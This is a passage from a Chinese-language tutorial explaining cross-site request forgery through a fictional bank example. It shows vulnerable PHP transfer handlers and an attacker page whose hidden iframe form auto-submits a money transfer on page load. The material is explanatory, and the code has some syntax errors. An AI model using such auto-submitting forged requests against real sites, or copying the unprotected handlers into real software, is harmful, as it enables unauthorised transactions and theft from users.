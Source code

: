 * 后台处理页面Transfer.php如下：

  ```php
  <?php
      session_start();
      if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money']))
      {
      	buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
      }
  ?>
  ```

* 危险网站B，仍然只是包含那句HTML代码
* 和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：
  * 银行后台使用了\$\_REQUEST去获取请求的数据，而\$\_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了**在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据**
  * 在PHP中，可以使用\$\_GET和​\$\_POST分别获取GET请求和POST请求的数据。**在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题**

#### 示例3

* 经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用\$\_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：

  ```php
  <?php
      session_start();
      if (isset($_POST['toBankId'] &&　isset($_POST['money']))
      {
      	buy_stocks($_POST['toBankId'],　$_POST['money']);
      }
  ?>
  ```

* 然而，危险网站B与时俱进，它改了一下代码：

  ```http
  <html>
  　　<head>
  　　　　<script type="text/javascript">
  　　　　　　function steal()
  　　　　　　{
            　　　　 iframe = document.frames["steal"];
  　　     　　      iframe.document.Submit("transfer");
  　　　　　　}
  　　　　</script>
  　　</head>
  
  　　<body onload="steal()">
  　　　　<iframe name="steal" display="none">
  　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
  　　　　　　　　<input type="hidden" name="toBankId" value="11">
  　　　　　　　　<input type="hidden" name="money" value="1000">
  　　　　　　</form>
  　　　　</iframe>
  　　</body>
  </html>
  ```
